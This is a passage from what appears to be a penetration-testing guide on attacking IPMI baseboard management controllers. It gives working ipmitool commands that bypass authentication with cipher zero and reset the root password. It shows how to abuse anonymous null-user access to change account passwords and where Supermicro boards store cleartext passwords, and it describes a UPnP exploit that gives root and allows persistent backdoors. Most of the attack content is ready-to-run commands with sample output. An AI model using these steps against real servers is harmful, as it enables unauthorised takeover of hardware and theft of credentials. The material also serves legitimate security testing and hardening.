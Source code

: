 _Note that for this you only need a list of usernames to brute-force (metasploit already contains one with default usernames)._

Using `ipmitool`bypassing authentication (`-c 0`) to change the root password to abc123:

```
root@kali:~# apt-get install ipmitool
root@kali:~# ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list
ID  Name      Callin  Link Auth   IPMI Msg   Channel Priv Limit
2   root             true    true       true       ADMINISTRATOR
3   Oper1            true    true       true       ADMINISTRATOR
root@kali:~# ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123
```

#### Vulnerability - IPMI Anonymous Authentication

In addition to the authentication problems above, Dan Farmer noted that **many BMCs ship with "anonymous" access enabled by default**. This is configured by setting the username of the first **user** account to a **null string** and **setting** a **null password** to match. The _ipmi\_dumphashes_ module will identify and dump the password hashes (including blank passwords) for null user accounts. **This account can be difficult to use on its own, but we can leverage `ipmitool` to reset the password of a named user account** and leverage that account for access to other services:

```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list

ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
1                    false  false      true      ADMINISTRATOR
2  root            false  false      true      ADMINISTRATOR
3  admin            true    true      true      ADMINISTRATOR

ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword #Change the password of the user 2 (root) to "newpassword"
```

#### Vulnerability - Supermicro IPMI Clear-text Passwords

The IPMI 2.0 specification mandates that the BMC respond to HMAC-based authentication methods such as SHA1 and MD5. This authentication process has some serious weaknesses, as demonstrated in previous examples, but also **requires access to the clear-text password in order to calculate the authentication hash**. This means that the BMC must store a **clear-text version** of all configured user passwords somewhere in **non-volatile storage**. In the case of **Supermicro**, this location changes between firmware versions, but is either **`/nv/PSBlock`** or **`/nv/PSStore`**. The passwords are scattered between various binary blobs, but easy to pick out as they always follow the username. This is a serious issue for any organization that uses shared passwords between BMCs or even different types of devices.

```bash
 cat /nv/PSBlock
  admin                      ADMINpassword^TT                    rootOtherPassword!
```

#### Vulnerability - Supermicro IPMI UPnP

Supermicro includes a **UPnP SSDP listener running on UDP port 1900** on the IPMI firmware of many of its recent motherboards. On versions prior to SMT\_X9\_218 this service was running the Intel SDK for UPnP Devices, version 1.3.1. This version is vulnerable to [the issues Rapid7 disclosed](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play) in February of 2013, and an exploit target for this platform is part of the Metasploit Framework. The interesting thing about this attack is that it **yields complete root access to the BMC**, something that is otherwise difficult to obtain. Keep in mind than an attacker with administrative access, either over the network or from a root shell on the host system, can downgrade the firmware of a Supermicro BMC to a vulnerable version and then exploit it. Once **root** access is **obtained**, it is possible to **read cleartext credentials** from the file system, **install** additional **software**, and integrate permanent **backdoors** into the BMC that would survive a full reinstall of the host's operating system.
